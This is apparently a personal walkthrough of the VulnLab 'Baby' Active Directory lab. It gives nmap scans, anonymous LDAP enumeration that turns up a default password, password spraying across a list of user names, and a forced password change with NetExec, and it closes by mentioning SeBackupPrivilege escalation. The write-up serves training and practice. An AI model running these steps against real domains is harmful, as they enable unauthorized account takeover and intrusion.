

# Baby

### Nmap

<figure><figcaption></figcaption></figure>

```jsx
nmap --min-rate 10000 -Pn -p- -v 10.10.108.32
```

<figure><figcaption></figcaption></figure>

```jsx
nmap -sVC -oN scan.txt -A -Pn -p- --min-rate 60000 10.10.108.32
```

### Enum

#### smb - nothing found

```jsx
nxc smb -u '' -p '' --shares 10.10.108.32
SMB         10.10.108.32    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.108.32    445    BABYDC           [+] baby.vl\\: 
SMB         10.10.108.32    445    BABYDC           [-] Error enumerating shares: STATUS_ACCESS_DENIED
                                                                                                                                     
┌──(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# nxc smb -u guest -p '' --shares 10.10.108.32
SMB         10.10.108.32    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\guest: STATUS_ACCOUNT_DISABLED 
                                                                                                                                     
┌──(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# nxc smb -u user -p '' --shares 10.10.108.32
SMB         10.10.108.32    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\user: STATUS_LOGON_FAILURE
```

#### ldap - Found pass gotta figure out user

**HOW** - Anonymous LDAP enumeration with NetExec (null bind) - [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html#anonymous-ldap-enumeration-with-netexec-null-bind](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html#anonymous-ldap-enumeration-with-netexec-null-bind)

```jsx
└─# netexec ldap baby.vl -u '' -p '' --query "(objectClass=*)" ""
```

```jsx
┌──(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# netexec ldap baby.vl -u '' -p '' --query "(objectClass=*)" "" | grep 'description'
LDAP                     10.10.108.32    389    BABYDC           description          Built-in account for guest access to the computer/domain
LDAP                     10.10.108.32    389    BABYDC           description          All workstations and servers joined to the domain
LDAP                     10.10.108.32    389    BABYDC           description          Members of this group are permitted to publish certificates to the directory
LDAP                     10.10.108.32    389    BABYDC           description          All domain users
LDAP                     10.10.108.32    389    BABYDC           description          All domain guests
LDAP                     10.10.108.32    389    BABYDC           description          Members in this group can modify group policy for the domain
LDAP                     10.10.108.32    389    BABYDC           description          Servers in this group can access remote access properties of users
LDAP                     10.10.108.32    389    BABYDC           description          Members in this group can have their passwords replicated to all read-only domain controllers in the domain
LDAP                     10.10.108.32    389    BABYDC           description          Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain
LDAP                     10.10.108.32    389    BABYDC           description          Members of this group are Read-Only Domain Controllers in the enterprise
LDAP                     10.10.108.32    389    BABYDC           description          Members of this group that are domain controllers may be cloned.
LDAP                     10.10.108.32    389    BABYDC           description          Members of this group are afforded additional protections against authentication security threats. See <http://go.microsoft.com/fwlink/?LinkId=298939> for more information.
LDAP                     10.10.108.32    389    BABYDC           description          DNS Administrators Group
LDAP                     10.10.108.32    389    BABYDC           description          DNS clients who are permitted to perform dynamic updates on behalf of some other clients (such as DHCP servers).
LDAP                     10.10.108.32    389    BABYDC           description          **Set initial password to BabyStart123!**
```

PASS - **BabyStart123!**

#### prepared list of users who were in output

```jsx
┌──(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# cat users.txt 
Teresa Bell
Kerry Wilson
Joseph Hughes
Connor Wilkinson
Leonard Dyer
Hugh George
Ashley Webb
Jacqueline Barnett
Teresa.Bell
Leonard.Dyer
Kerry.Wilson
Joseph.Hughes
Jacqueline.Barnett
Hugh.George
Ashley.Webb
Caroline Robinson - this man didn't have any data so i thought it's odd so added him too
Caroline.Robinson
```

```jsx
┌──(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# nxc smb babydc.baby.vl -u users.txt -p 'BabyStart123!' 10.10.108.32 --continue-on-success
SMB         10.10.108.32    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Teresa Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Kerry Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Joseph Hughes:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Connor Wilkinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Leonard Dyer:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Ashley Webb:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Jacqueline Barnett:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Caroline Robinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Teresa Bell:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Kerry Wilson:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Joseph Hughes:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Connor Wilkinson:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Leonard Dyer:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Hugh George:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Ashley Webb:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Jacqueline Barnett:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Teresa.Bell:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Leonard.Dyer:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Kerry.Wilson:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Joseph.Hughes:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Jacqueline.Barnett:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Hugh.George:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Ashley.Webb:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Caroline Robinson:10.10.108.32 STATUS_LOGON_FAILURE 
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Caroline.Robinson:10.10.108.32 STATUS_LOGON_FAILURE
```

Password matched for caroline.robinson.

```jsx
[-] baby.vl\\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

```jsx
┌──(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# nxc smb babydc.baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' --shares              
SMB         10.10.108.32    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
```

must find a way to change password of Caroline.Robinson .

<figure><figcaption></figcaption></figure>

```jsx
(root㉿lostboi)-[/home/lostboi/vulnlab/baby]
└─# nxc smb babydc.baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=LostBoi001x
SMB         10.10.108.32    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.10.108.32    445    BABYDC           [-] baby.vl\\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
CHANGE-P... 10.10.108.32    445    BABYDC           [+] Successfully changed password for Caroline.Robinson
```

Then perform SeBackupPrivilage exploitation for domain controller to get root.

Happy hacking ; )
